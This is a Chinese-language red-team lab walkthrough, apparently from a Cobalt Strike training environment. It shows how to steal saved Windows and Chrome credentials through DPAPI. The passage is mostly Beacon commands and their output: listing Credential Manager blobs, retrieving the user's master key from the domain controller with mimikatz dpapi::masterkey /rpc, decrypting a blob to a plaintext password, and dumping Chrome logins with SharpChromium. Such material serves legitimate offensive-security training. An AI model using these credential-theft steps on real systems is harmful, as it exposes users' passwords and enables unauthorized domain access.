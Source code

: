 # Data Protection API

Data Protection API是windows里面的一个组件，被windows管理器用来加解密各种用户凭据，比如RDP等。

谷歌浏览器也会用DPAPI保存网站的用户凭据。

# Credential Manager
credential manager blobs存储在```AppData```目錄

```
 beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 372b     fil     02/25/2021 13:07:38   9D54C839752B38B233E5D56FDD7891A7
 10kb     fil     02/21/2021 11:49:40   DFBE70A7E5CC19A398EBF1B96859CE5D
```


 使用windows自带的vaultcmd命令可以列出
```
 beacon> run vaultcmd /listcreds:"Windows Credentials" /all
```

 或者mimikatz
```
 beacon> mimikatz vault::list
```
要解密凭据，需要找到```master encryption key```

执行```dpapi::cred```,指定要解密的凭据路径
```
 beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7

BLOB
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
  pbData             : b8f619[...snip...]b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985
```

guidMasterKey包含解密所需密钥的 GUID，上面是：```a23a1631-e2ca-4805-9f2f-fe8966fd8698```

```pbData```就是我们要解密的内容

也可以在这个目录```AppData\Roaming\Microsoft\Protect```上找到GUID
> The Master Key information is stored within the user's AppData\Roaming\Microsoft\Protect directory (where S-1-5-21-* is their SID).

```
 beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 928b     fil     02/21/2021 11:49:40   BK-DEV
 24b      fil     02/21/2021 11:49:40   Preferred
```



知道了GUID，利用mimikatz获取masterkey，需要system或管理员权限
```
 beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc

[domainkey] with RPC
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
  key : 0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
  sha1: e3d7a52f1755a35078736eecb5ea6a23bb8619fc
```

上面的key就是解密需要的masterkey

解密凭据，得到明文密码：```Sup3rman```
```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df

Decrypting Credential:
 [...snip...]
  UserName       : DEV\bfarmer
  CredentialBlob : Sup3rman
```

在上面的例子中，bfarmer是SRV-1的本地管理员，所以他们只是保存了自己的域凭证。值得注意的是，即使他们有本地凭证，甚至保存了一套不同的域凭证，解密的过程也是完全一样的。


# Google Chrome

Chrome的用户凭据也是存放在```AppData```目录
```
beacon> ls C:\Users\bfarmer\AppData\Local\Google\Chrome\User Data\Default

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 40kb     fil     02/25/2021 13:21:18   Login Data
```

可以使用[SharpChromium](https://github.com/djhohnstein/SharpChromium)破解里面的密码

```
beacon> execute-assembly C:\Tools\SharpChromium\bin\Debug\SharpChromium.exe logins

[*] Beginning Google Chrome extraction.

--- Chromium Credential (User: bfarmer) ---
URL      : 
Username : bfarmer
Password : Sup3rman

[*] Finished Google Chrome extraction.
[*] Done.
```